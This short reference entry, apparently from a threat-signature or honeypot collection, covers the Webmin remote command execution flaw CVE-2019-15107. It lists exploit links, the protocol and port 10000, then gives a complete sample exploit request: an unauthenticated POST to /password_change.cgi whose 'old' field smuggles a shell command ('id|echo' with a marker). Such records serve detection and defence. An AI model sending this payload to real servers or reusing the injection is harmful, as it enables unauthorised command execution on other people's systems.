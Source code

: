 # Webmin RCE CVE-2019-15107

# Links:
https://www.exploit-db.com/exploits/47293
https://github.com/jas502n/CVE-2019-15107
https://pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html


# Protocols:
HTTP

# Ports:
10000

# Sample:

```
POST /password_change.cgi HTTP/1.1
Host: 203.183.41.113:10000
User-Agent: curl/7.64.0
Accept: */*
Cookie: redirect=1; testing=1; sid=x; sessiontest=1;
Content-Type: application/x-www-form-urlencoded
Referer: 203.183.41.113:10000/session_login.cgi
Content-Length: 92

user=wheel&pam=&expired=2&old=id|echo f3a0c13c3765137bcde68572707ae5c0&new1=wheel&new2=wheel
```
